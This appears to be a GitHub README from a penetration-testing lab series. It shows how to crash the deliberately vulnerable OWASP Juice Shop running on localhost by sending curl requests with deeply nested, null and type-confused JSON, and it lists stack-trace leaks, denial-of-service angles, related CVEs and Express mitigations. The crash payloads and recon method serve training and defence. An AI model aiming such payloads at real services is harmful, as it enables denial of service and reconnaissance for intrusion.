 📁 Error-Handling-Attacks-Juice-Shop/4-Forced-Application-Crash/Read-Me.md

markdown
Copy
Edit
# 🔥 4 – Forced Application Crash

> 📂 Path: `Error-Handling-Attacks-Juice-Shop/4-Forced-Application-Crash/`

---

## ⚔️ Description

In this attack, the goal is to **intentionally crash the application** by sending **malformed, logically invalid, or highly recursive payloads** to trigger unhandled exceptions. These forced crashes can expose:

- Stack traces
- File paths
- Internal API calls
- Server runtime behavior
- Debugging hooks or memory-related flaws

Crashing the app allows attackers to fingerprint **framework internals**, observe failover behavior, or, in production environments, even lead to **denial-of-service (DoS)** or **remote code execution (RCE)** under specific misconfigurations.

---

## 🧠 Deep Technical PoC

### 🎯 Objective

Send payloads designed to break internal logic, force recursion errors, or bypass validation to cause the app to crash. Analyze crash output, stack dumps, or server restarts for recon and privilege escalation vectors.

---

### 🛠️ Tools Used

| Tool           | Purpose                                                   |
|----------------|-----------------------------------------------------------|
| 🔧 **Burp Suite**     | Intercept requests and inject crash vectors             |
| 🧪 **curl / Postman** | Send malformed or nested JSON payloads                  |
| 🧰 **DevTools (F12)** | Access frontend input points that map to backend logic |
| 🧱 **Node.js Crash Simulators** (optional) | Local testing with payloads in mock apps     |

---

### 🧪 Step-by-Step Crash Walkthrough

#### 1️⃣ Start Juice Shop

```bash
docker run --rm -p 3000:3000 bkimminich/juice-shop
Navigate to:

arduino
Copy
Edit
http://localhost:3000
2️⃣ Identify Sensitive Logic
Common targets:

🔐 POST /rest/user/login

🛒 POST /rest/basket/

📝 POST /rest/feedback

🧾 POST /rest/products/search

3️⃣ Inject Logic Bomb or Malformed Payload
Example A – Recursive Payload (JSON Parser Stress)
bash
Copy
Edit
curl -X POST http://localhost:3000/api \
-H "Content-Type: application/json" \
-d '{"data": {"data": {"data": {"data": {"data": {}}}}}}'
📍 Expect memory exhaustion or JSON parsing crash.

Example B – Null Object Injection
bash
Copy
Edit
curl -X POST http://localhost:3000/rest/user/login \
-H "Content-Type: application/json" \
-d '{"email": null, "password": null}'
📍 Some frameworks crash on null.toString() when logging or validating.

Example C – Type Confusion / Array Injection
bash
Copy
Edit
curl -X POST http://localhost:3000/rest/feedback \
-H "Content-Type: application/json" \
-d '{"comment": [1,2,3], "rating": "Infinity"}'
📍 If backend tries comment.length, may throw undefined is not a function.

4️⃣ Observe Server Behavior
Look for:

500 Internal Server Error

Full Express stack trace

Memory dump traces

Termination logs

Docker container crash loop

🚩 Hacker Insight
🔍 What’s Exposed Internally?
Leak Point	Exploit Opportunity
Stack Trace	Full file paths, function names, code structure
JSON Parser Crash	Backend logic flaws → RCE (in rare cases)
Crashed Container	Trigger DoS → App unavailable
Logging Failures	Leak environment variables or tokens

🔬 Recon Advantage
Pinpoint backend entry points

Locate unvalidated input sinks

Fingerprint error-handling routines

Surface routes vulnerable to DoS

🧨 Real-World CVEs / Incidents
CVE-2019-5413 – Express stack trace leak

Node.js JSON Parser Bugs – Deep object nesting → crash

Custom Middleware Failure – res.send(null) crash on response rendering

CVE-2018-12116 – Uncaught exception in Node http module

💣 Exploit Demo Video
Demonstrate forced crash using Burp or curl + show Docker container log restart.

🛡️ Mitigation Recommendations
Fix Type	Description
🧱 Input Validation	Enforce schema types and value limits
🚫 Limit recursion	Set max depth for JSON parsing
🧰 Catch-All Error Handler	Prevent uncaught exceptions from crashing app
📉 Rate Limit / WAF	Throttle logic bombs / malformed requests

Sample Express error handler:

js
Copy
Edit
app.use((err, req, res, next) => {
  logger.error(err.stack);
  res.status(500).send('Internal server error.');
});
🧭 Classification in OffSec
Domain	Attack Objective
Red Teaming	App stability probing / DoS
Exploit Dev	Crash-based RCE discovery
Web Pentesting	Input validation failures
Secure Coding Audit	Absence of fault tolerance

📂 Suggested Artifacts
crash_payloads.json – Full list of bomb vectors

docker_logs_crash.txt – Post-crash server logs

burp_crash_interactions.txt – Raw POST requests

screenshots/ – App behavior on crash

error_analysis.md – Mapping of crash type → response

👨‍💻 Author
Shajohn16
Offensive Security Enthusiast | AppSec Researcher | Node.js Exploiter
GitHub: @Shajohn16
